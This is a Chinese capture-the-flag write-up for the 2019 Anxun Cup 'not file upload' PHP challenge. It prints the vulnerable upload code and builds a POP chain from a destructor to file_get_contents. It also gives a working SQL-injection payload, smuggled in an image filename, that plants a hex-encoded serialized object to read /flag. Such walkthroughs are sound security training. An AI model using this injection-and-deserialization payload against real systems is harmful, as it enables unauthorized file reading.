



# 安洵杯2019-不是文件上传

原文链接：https://blog.csdn.net/weixin_45642610/article/details/119463045

首先打开页面。



这里有点犟种了，他题目说了不是文件上传，我硬是试了半天。然后说是要看源码。github上把源码下下来

代码审计

upload.php

```
<!DOCTYPE html>
<html>
<head>
	<title>Image Upload</title>
	<link rel="stylesheet" href="./style.css">
	<meta http-equiv="content-type" content="text/html;charset=UTF-8"/>
</head>
<body>
<p align="center"></p>
<div align="center">
<form name="upload" action=""  method="post" enctype ="multipart/form-data" >
    <input type="file" name="file">
    <input type="Submit" value="submit">
</form>
</div>

<br> 
<p><a href="./show.php">You can view the pictures you uploaded here</a></p>
<br>

<?php
include("./helper.php");
class upload extends helper {
	public function upload_base(){
		$this->upload();
	}
}

if ($_FILES){
	if ($_FILES["file"]["error"]){
		die("Upload file failed.");
	}else{
		$file = new upload();
		$file->upload_base();
	}
}

$a = new helper();
?>
</body>
</html>
```

---

show.php

```
<!DOCTYPE html>
<html>
<head>
	<title>Show Images</title>
	<link rel="stylesheet" href="./style.css">
	<meta http-equiv="content-type" content="text/html;charset=UTF-8"/>
</head>
<body>

<h2 align="center">Your images</h2>
<p>The function of viewing the image has not been completed, and currently only the contents of your image name can be saved. I hope you can forgive me and my colleagues and I are working hard to improve.</p>
<hr>

<?php
include("./helper.php");
$show = new show();
if($_GET["delete_all"]){
	if($_GET["delete_all"] == "true"){
		$show->Delete_All_Images();
	}
}
$show->Get_All_Images();

class show{
	public $con;

	public function __construct(){
		$this->con = mysqli_connect("127.0.0.1","r00t","r00t","pic_base");
		if (mysqli_connect_errno($this->con)){ 
   			die("Connect MySQL Fail:".mysqli_connect_error());
		}
	}

	public function Get_All_Images(){
		$sql = "SELECT * FROM images";
		$result = mysqli_query($this->con, $sql);
		if ($result->num_rows > 0){
		    while($row = $result->fetch_assoc()){
		    	if($row["attr"]){
		    		$attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
					$attr = unserialize($attr_temp);
				}
		        echo "<p>id=".$row["id"]." filename=".$row["filename"]." path=".$row["path"]."</p>";
		    }
		}else{
		    echo "<p>You have not uploaded an image yet.</p>";
		}
		mysqli_close($this->con);
	}

	public function Delete_All_Images(){
		$sql = "DELETE FROM images";
		$result = mysqli_query($this->con, $sql);
	}
}
?>

<p><a href="show.php?delete_all=true">Delete All Images</a></p>
<p><a href="upload.php">Upload Images</a></p>

</body>
</html>
```

---

helper.php

```
<?php
// 定义一个名为 helper 的类，用于处理图片上传和相关操作
class helper {
    // 定义一个受保护的属性 $folder，用于存储上传图片的文件夹路径
    protected $folder = "pic/";
    // 定义一个受保护的属性 $ifview，用于控制文件查看功能是否可用，初始值为 False
    protected $ifview = False;
    // 定义一个受保护的属性 $config，用于指定配置文件的名称
    protected $config = "config.txt";
    // 注释说明该类中的某些功能还不完善，尚未开放
 
    // 定义一个公共方法 upload，用于处理图片上传操作，默认表单文件字段名为 "file"
    public function upload($input="file")
    {
        // 调用 getfile 方法获取上传文件的相关信息
        $fileinfo = $this->getfile($input);
        // 初始化一个空数组 $array，用于存储文件的详细信息
        $array = array();
        // 将文件的标题信息存入数组
        $array["title"] = $fileinfo['title'];
        // 将文件名存入数组
        $array["filename"] = $fileinfo['filename'];
        // 将文件扩展名存入数组
        $array["ext"] = $fileinfo['ext'];
        // 将文件存储路径存入数组
        $array["path"] = $fileinfo['path'];
        // 使用 getimagesize 函数获取上传图片的尺寸信息，返回一个数组
        $img_ext = getimagesize($_FILES[$input]["tmp_name"]);
        // 从尺寸信息数组中提取图片的宽度和高度，存入新数组 $my_ext
        $my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
        // 使用 serialize 函数将 $my_ext 数组序列化为字符串，并将其存入 $array 数组的 "attr" 键中
        $array["attr"] = serialize($my_ext);
        // 调用 save 方法将文件信息保存到数据库，并获取保存后的记录 ID
        $id = $this->save($array);
        // 如果保存操作返回的 ID 为 0，表示保存失败，输出错误信息并终止脚本
        if ($id == 0){
            die("Something wrong!");
        }
        // 输出换行符
        echo "<br>";
        // 输出上传成功的提示信息，包含图片的 ID
        echo "<p>Your images is uploaded successfully. And your image's id is $id.</p>";
    }
 
    // 定义一个公共方法 getfile，用于获取上传文件的相关信息
    public function getfile($input)
    {
        // 检查 $input 是否被设置
        if(isset($input)){
            // 调用 check 方法对上传文件的信息进行检查，并将结果存储在 $rs 中
            $rs = $this->check($_FILES[$input]);
        }
        // 返回检查后的文件信息
        return $rs;
    }
 
    // 定义一个公共方法 check，用于检查上传文件的合法性
    public function check($info)
    {
        // 生成一个唯一的文件名，使用当前时间和唯一 ID 进行 MD5 加密，截取中间 16 位
        $basename = substr(md5(time().uniqid()),9,16);
        // 获取上传文件的原始文件名
        $filename = $info["name"];
        // 从文件名中提取文件扩展名
        $ext = substr(strrchr($filename, '.'), 1);
        // 定义一个允许上传的文件扩展名数组
        $cate_exts = array("jpg","gif","png","jpeg");
        // 检查上传文件的扩展名是否在允许的扩展名数组中
        if(!in_array($ext,$cate_exts)){
            // 如果不在允许的扩展名数组中，输出错误信息并终止脚本
            die("<p>Please upload the correct image file!!!</p>");
        }
        // 从文件名中去除扩展名，得到文件标题
        $title = str_replace(".".$ext,'',$filename);
        // 返回一个包含文件标题、文件名、扩展名和存储路径的数组
        return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
    }
 
    // 定义一个公共方法 save，用于将文件信息保存到数据库
    public function save($data)
    {
        // 检查 $data 是否为空或不是数组
        if(!$data || !is_array($data)){
            // 如果条件满足，输出错误信息并终止脚本
            die("Something wrong!");
        }
        // 调用 insert_array 方法将文件信息插入数据库，并获取插入记录的 ID
        $id = $this->insert_array($data);
        // 返回插入记录的 ID
        return $id;
    }
 
    // 定义一个公共方法 insert_array，用于将数组数据插入数据库
    public function insert_array($data)
    {
        // 连接到本地 MySQL 数据库，使用用户名 "r00t"、密码 "r00t" 和数据库名 "pic_base"
        $con = mysqli_connect("127.0.0.1","r00t","r00t","pic_base");
        // 检查数据库连接是否失败
        if (mysqli_connect_errno($con))
        {
            // 如果连接失败，输出错误信息并终止脚本
            die("Connect MySQL Fail:".mysqli_connect_error());
        }
        // 初始化一个空数组 $sql_fields，用于存储 SQL 语句中的字段名
        $sql_fields = array();
        // 初始化一个空数组 $sql_val，用于存储 SQL 语句中的字段值
        $sql_val = array();
        // 遍历 $data 数组，将字段名和字段值分别存储到 $sql_fields 和 $sql_val 数组中
        foreach($data as $key=>$value){
            // 对字段名中的特殊字符进行替换
            $key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
            // 对字段值中的特殊字符进行替换
            $value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
            // 将处理后的字段名添加到 $sql_fields 数组中，并添加反引号
            $sql_fields[] = "`".$key_temp."`";
            // 将处理后的字段值添加到 $sql_val 数组中，并添加单引号
            $sql_val[] = "'".$value_temp."'";
        }
        // 构建 SQL 插入语句，将字段名和字段值分别用逗号连接
        $sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
        // 执行 SQL 插入语句
        mysqli_query($con, $sql);
        // 获取插入记录的 ID
        $id = mysqli_insert_id($con);
        // 关闭数据库连接
        mysqli_close($con);
        // 返回插入记录的 ID
        return $id;
    }
 
    // 定义一个公共方法 view_files，用于查看文件内容
    public function view_files($path){
        // 检查 $ifview 属性是否为 False
        if ($this->ifview == False){
            // 如果为 False，返回 False，表示文件查看功能不可用
            return False;
            // 注释说明该功能还不完善，尚未开放
        }
        // 使用 file_get_contents 函数读取文件内容
        $content = file_get_contents($path);
        // 输出文件内容
        echo $content;
    }
 
    // 定义析构函数，当对象被销毁时自动调用
    function __destruct(){
        # 读取一些配置文件的内容
        // 调用 view_files 方法读取配置文件内容
        $this->view_files($this->config);
    }
}
 
?>
```

构造pop链：

```
调用helper.php中的__destruct到方法view_files的file_get_contents
```

poc：

```
<?php

class helper{

    protected $config = '/flag';
    protected $ifview = true;


}

$a = new helper();
echo serialize($a);
echo "<br>";
echo bin2hex(serialize($a));

?>
```

现在需要一个反序列化来触发我们的pop链，在show.php里发现有个反序列化



这里是在反序列化helper类里我们上传的图片的高和宽



这里的5个参数会保存到数据库里。可以由第一行代码追溯getfile方法到check方法，得到这些参数的返回值

```
$fileinfo = $this->getfile($input);
```

```
 public function getfile($input)
    {
        if(isset($input)){
            $rs = $this->check($_FILES[$input]);
        }
        return $rs;
    }
```

---

```
    public function check($info)
    {
        $basename = substr(md5(time().uniqid()),9,16);
        $filename = $info["name"];
        $ext = substr(strrchr($filename, '.'), 1);
        $cate_exts = array("jpg","gif","png","jpeg");
        if(!in_array($ext,$cate_exts)){
            die("<p>Please upload the correct image file!!!</p>");
        }
        $title = str_replace(".".$ext,'',$filename);
        return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
    }
```

title：上传图片的文件名

filename：文件名+.后缀

ext：上传的图片的后缀

path：成员变量folder+…=/pic/…

attr：图像的高和宽数组

可以看到title没有进行过滤处理

然后可以由最后一行代码追溯到save方法->insert_array方法

```
    public function insert_array($data)
    {
        $con = mysqli_connect("127.0.0.1","r00t","r00t","pic_base");
        if (mysqli_connect_errno($con))
        {
            die("Connect MySQL Fail:".mysqli_connect_error());
        }
        $sql_fields = array();
        $sql_val = array();
        foreach($data as $key=>$value){
            $key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
            $value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
            $sql_fields[] = "`".$key_temp."`";
            $sql_val[] = "'".$value_temp."'";
        }
        $sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
        mysqli_query($con, $sql);
        $id = mysqli_insert_id($con);
        mysqli_close($con);
        return $id;
    }
```

$sql_fields是5个列名即参数

$sql_val则是5个参数值

这里我们可以用title来注入，这里能将我们的数据写入数据库中

payload：

```
1','2','3','4',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#.png


十六进制编码前：
O:6:"helper":2:{s:9:".*.ifview";b:1;s:9:".*.config";s:5:"/flag";}
```

insert的sql语句为

```
INSERT INTO table_name ('column1','column2','column3',...)
VALUES ('value1','value2','value3',...);

写入payload后

INSERT INTO table_name ('column1','column2','column3',...)
VALUES ('1','2','3','4',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#','value2','value3',...);

可以简化为
INSERT INTO table_name ('column1','column2','column3',...)
VALUES ('1','2','3','4',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)
```

这里value1就是title的值，即上面的payload。然后payload里的1,2,3,4,5对应5个参数。等于我们在value1这个位置闭合，所以最后要用#注释掉后面的内容。因为attr字段在最后所以要放在第5个位置。又因为上传的文件名不能有双引号，所以要用十六进制编码，然后前面一定要加上0x

上传一个图片然后把文件名改为payload上传，然后到show页面就能看到flag


